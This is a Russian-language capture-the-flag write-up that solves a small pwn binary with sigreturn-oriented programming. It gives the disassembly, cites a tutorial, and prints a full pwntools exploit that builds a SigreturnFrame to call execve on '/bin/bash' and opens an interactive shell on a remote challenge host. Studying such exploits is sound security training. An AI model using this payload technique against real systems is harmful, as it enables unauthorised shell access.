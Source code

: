 
1. Откроем файл task и увидим в функции main() следующее содержимое:
```

void entry(void)

{
  syscall();
  return;
}

```
2. Видим syscall и понимаем, что нам нужен SROP для решения.
3. В самом конце файла записана строка `/bin/bash` которая и должна быть передана в качестве аргумента для `syscall`
4. Находим подходящую статью по SROP в учебнике по PWN - [вот ссылка](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop)
5. Пример в статье очень напоминает нам наш файл.
 Вот как это выглядит в статье:
 ```
 from pwn import *

  context.arch = 'amd64'
  context.os = 'linux'
  
  elf = ELF.from_assembly(
      '''
          mov rdi, 0;
          mov rsi, rsp;
          sub rsi, 8;
          mov rdx, 500;
          syscall;
          ret;
          
          pop rax;
          ret;
      ''', vma=0x41000
  )
  elf.save('vuln')
  ```
 И вот как у нас:
 ```
 00041000 48 c7 c7        MOV        RDI,0x0
       00 00 00 00
 00041007 48 89 e6        MOV        RSI,RSP
 0004100a 48 83 ee 08     SUB        RSI,0x8
 0004100e 48 c7 c2        MOV        RDX,0x1f4
       f4 01 00 00
 00041015 0f 05           SYSCALL
 00041017 c3              RET
 00041018 58              POP        RAX
 00041019 c3              RET
   ```
6. Пишем эксплойт по гайду и получаем такой код:
```
from pwn import *

elf = context.binary = ELF('./task', checksec=False)
p = remote('192.168.12.13', 1555)

BINSH = elf.address + 0x1430
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b  
frame.rdi = BINSH          
frame.rsi = 0x0          
frame.rdx = 0x0           
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
